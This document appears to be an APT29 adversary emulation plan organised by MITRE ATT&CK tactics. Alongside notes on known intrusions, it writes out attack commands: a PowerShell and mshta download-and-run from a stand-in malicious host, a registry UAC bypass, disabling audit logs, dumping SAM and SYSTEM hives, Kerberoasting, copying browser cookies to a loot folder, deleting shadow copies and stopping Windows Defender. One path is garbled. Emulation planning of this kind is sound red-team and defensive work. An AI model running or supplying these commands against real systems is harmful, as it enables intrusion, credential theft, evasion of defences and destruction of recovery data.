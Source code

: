 
# APT29 Emulation Plan

---

## Initial Access (TA0001)

### T1566.001 - Spearphishing Attachment
- Malicious DOC, PDF, and LNK files  
- Delivered initial malware payloads (e.g., SUNBURST)

### T1566.002 - Spearphishing Link
- Used Constant Contact to send phishing emails  
- Linked to ZIP archives with embedded ISO/VHD files  
- Embedded HTML/JS to drop payloads

### T1195.002 - Supply Chain Compromise
- Trojanized SolarWinds Orion update  
- Delivered SUNBURST backdoor via SUNSPOT build-time injection

### T1078 - Valid Accounts
- Stolen credentials from O365, Exchange, VPNs  
- Reused dormant or inactive user accounts

---

## Execution (TA0002)

### T1059.001 - PowerShell
```
Invoke-WebRequest -Uri http://malicious.site/file.ps1 -OutFile file.ps1  
powershell -ExecutionPolicy Bypass -File file.ps1
```

### T1059.003 - Windows Command Shell
```
cmd.exe /c schtasks /create /tn "WinUpdate" /tr "C:ackdoor.exe" /sc onlogon
```

### T1218.011 - Rundll32
```
rundll32.exe C:\Windows\Temp\malware.dll,EntryPoint
```

### T1218.005 - Mshta
```
mshta http://malicious.site/payload.hta
```

---

## Privilege Escalation (TA0004)

### T1548.002 - Bypass UAC
```
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d "C:\backdoor.exe"
```

### T1068 - Exploitation for Privilege Escalation
- Exploited CVE-2021-36934 (HiveNightmare)  
- Escalated to SYSTEM via vulnerable permissions

---

## Defense Evasion (TA0005)

### T1027 - Obfuscated Files or Information
- UPX-packed executables  
- Encrypted DLLs using ChaCha20/AES

### T1562.002 - Disable Audit Logs
```
auditpol /set /category:* /success:disable /failure:disable
```

### T1070.004 - File Deletion
```
sdelete.exe -accepteula -nobanner C:\payload.exe
```

### T1070.006 - Timestomp
- Modified timestamps to match system files using custom tools

### T1036.005 - Masquerading
- Renamed malware to appear as system binaries  
- Example: `svchost.exe`, `system32.dll`

---

## Credential Access (TA0006)

### T1003.002 - Security Account Manager
```
reg save HKLM\SAM SAM  
reg save HKLM\SYSTEM SYSTEM
```

### T1555.003 - Credentials from Browsers
- Extracted Chrome saved passwords  
- Accessed Login Data SQLite database

### T1558.003 - Kerberoasting
```
Rubeus.exe kerberoast /outfile:hashes.txt
```

---

## Discovery (TA0007)

### T1087.002 - Account Discovery: Domain Accounts
```
Get-ADUser -Filter *  
Get-ADGroupMember -Identity "Domain Admins"
```

### T1069.002 - Group Membership Discovery
```
AdFind.exe -f "objectcategory=group"
```

### T1018 - Remote System Discovery
```
net view /domain
```

---

## Lateral Movement (TA0008)

### T1021.001 - Remote Desktop Protocol (RDP)
- Lateral movement via RDP with stolen credentials

### T1021.006 - Windows Remote Management (WinRM)
```
Invoke-Command -ComputerName target -ScriptBlock {Invoke-WebRequest ...}
```

### T1550.004 - Cookie Reuse
- Used stolen session cookies to bypass MFA  
- Forged `duo-sid` values for OWA access

---

## Collection (TA0009)

### T1114.002 - Email Collection
```
New-MailboxExportRequest -Mailbox <target> -FilePath \\server\share\export.pst  
Get-MailboxExportRequest
```

### T1005 - Data from Local System
```
copy C:\Users\admin\AppData\Local\Google\Chrome\User Data\Default\Cookies C:\loot
```

---

## Command and Control (TA0011)

### T1071.001 - Web Protocols (HTTPS)
- SUNBURST and TEARDROP beacons over HTTPS  
- Used DNS, Dropbox, and Twitter for C2

### T1090.004 - Domain Fronting
- Used `meek` plugin over TOR to evade inspection

### T1102.002 - Social Media
- C2 over Twitter handles registered via DGA

---

## Exfiltration (TA0010)

### T1560.001 - Archive Collected Data
```
7z a -p1234 loot.zip C:\loot\*
```

### T1048.002 - Exfil Over HTTPS
- Uploaded encrypted archives to C2 over HTTPS

### T1070.008 - Clear Mailbox Export Logs
```
Remove-MailboxExportRequest -Identity <ExportID>
```

---

## Impact (TA0040)

### T1490 - Inhibit System Recovery
```
vssadmin delete shadows /all /quiet
```

### T1489 - Service Stop
```
sc stop WdNisSvc  
sc stop WinDefend
```

---



